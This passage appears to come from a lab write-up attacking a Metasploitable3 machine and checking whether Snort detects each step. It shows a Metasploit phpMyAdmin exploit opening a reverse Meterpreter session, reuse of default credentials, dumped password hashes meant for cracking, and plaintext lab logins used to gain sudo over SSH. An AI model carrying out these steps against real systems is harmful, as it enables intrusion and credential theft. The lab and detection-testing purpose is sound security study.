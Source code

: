 Then we run the exploit:

```bash
exploit
```

```bash
[*] Started reverse TCP handler on 192.168.0.104:4444 
[*] phpMyAdmin version: 3.5.8
[*] The target appears to be vulnerable.
[*] Grabbing CSRF token...
[+] Retrieved token
[*] Authenticating...
[+] Authentication successful
[*] Sending stage (39927 bytes) to 192.168.0.104
[*] Meterpreter session 5 opened (192.168.0.104:4444 -> 192.168.0.104:48186) at 2023-11-19 19:34:59 +0200

meterpreter > 
```

This attack was not detected by snort.

We now have meterpreter session, although we would like to have a shell, but now that we know that the credentials `root:sploitme` work, we can try them by accessing the page `172.28.128.3` from the browser, and we have `payroll_app.php` in which if we try to login with the given credentials we can see that we can successfully login and see four columns but with no information.

We can also enter the folder `phpmyadmin` and try to login with the same credentials and we can see that we can login successfully and looking around we see a database called `drupal` and a table `users` which contains the following information:

- `metasploitable:$S$CJIHJhMPBaUXD1eqgmvZEms1N0Ihj6DmJNbe/bldU7ySCk./QC/R`

In the database `mysql`, table `users`:

- `root:*67A5195F64E08F5700B665061545D5473D77B5D7`

Although these passwords are hashed we will keep them in case we need them later and use a tool such as john the ripper to crack them.

Lastly we will access the database `payroll` and table `users` which contains usernames, first names, last names, plain text passwords and salaries. We can see that if we try these users in the `payroll_app.php` we can login with all of them and see the information.

We tried to login to the machine by ssh with the credentials of the table and all of them worked and we could get a shell, but Leia, Luke, and Han had sudo privileges. (`han_solo:nerf_herder`, `luke_skywalker:like_my_father_beforeme`, `leia_organa:help_me_obiwan`).

Check that Leia has root

```bash
leia_organa@metasploitable3-ub1404:~$ id
uid=1111(leia_organa) gid=100(users) groups=100(users),27(sudo)

```

This is not detected by Snort.
